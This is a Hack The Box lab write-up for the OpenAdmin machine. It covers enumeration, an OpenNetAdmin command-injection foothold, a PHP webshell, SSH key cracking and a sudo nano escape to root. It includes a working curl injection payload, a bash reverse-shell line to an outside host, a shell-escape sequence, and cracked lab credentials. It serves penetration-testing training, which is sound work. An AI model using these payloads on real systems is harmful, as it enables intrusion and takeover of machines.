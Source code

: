 ```yaml
---
title: "[HTB] Machine: OpenAdmin"
description: "[HTB] Machine: OpenAdmin"
date: 2023-06-26
menu:
  sidebar:
    name: "[HTB] Machine: OpenAdmin"
    identifier: htb-machine-openadmin
    parent: htb-machines-linux
    weight: 10
hero: images/openadmin.png
tags: ["HTB", "opennetadmin", "searchsploit", "webshell", "ssh", "john", "sudo", "gtfobins"]
---
```


# OpenAdmin
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.171                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 17:39 BST
Nmap scan report for 10.10.10.171 (10.10.10.171)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.34 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.171 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/06/27 17:52:42 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
```
- Web server

![](./images/1.png)

- `/ona`

- If you click login on `/music` page, it will redirect you to `/ona` page

![](./images/2.png)

## Foothold
- `searchsploit`

![](./images/3.png)

- Check exploit 

![](./images/4.png)

- We can test it manually
  - `curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/`

![](./images/5.png)

- Let's try reverse shell
  - `curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.7/6666 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/`

![](./images/6.png)

![](./images/7.png)


## User 1
- Enumerating for privesc
  - Started from local directory
  - `grep -inRE "*passwd*" .` to search for config files with password

![](./images/8.png)

![](./images/9.png)

- Open `mysql`

![](./images/10.png)

- Before cracking let's try `su` for password reuse with `n1nj4W4rri0R!`
  - And it works for `jimmy`

![](./images/11.png)

## User 2
- We see a folder owned by `jimmy`

![](./images/12.png)

- We see the source files
  - Let's check open ports
    - Strange port `52846`
  - And if apache or nginx was running (`ona` was hosted by apache)
    - `internal.openadmin.htb` on port `52846`

![](./images/13.png)

![](./images/14.png)

![](./images/15.png)

- Let's configure port forwarding via SSH

![](./images/16.png)

![](./images/17.png)

### Webshell
- We can create webshell `php` file and access it

![](./images/18.png)

![](./images/19.png)

- Let's get reverse shell

![](./images/20.png)

![](./images/21.png)

### SSH
- If we read source code of internal we can see that after login we will get a joanna's key
  - And the creds for access are hardcoded

![](./images/22.png)

![](./images/23.png)

![](./images/24.png)

- I tried connecting with the key, but it was encrypted
  - So I used `john` to find a passphrase
  - `bloodninjas`

![](./images/25.png)

## Root
- Started with checking `sudo` rights

![](./images/26.png)

- `GTFOBins`

![](./images/27.png)

- Steps:
  - `sudo /bin/nano /opt/priv`
  - `CTRL + R`
  - `CTRL + X`
  - `reset; sh 1>&0 2>&0`
  - Rooted

![](./images/28.png)
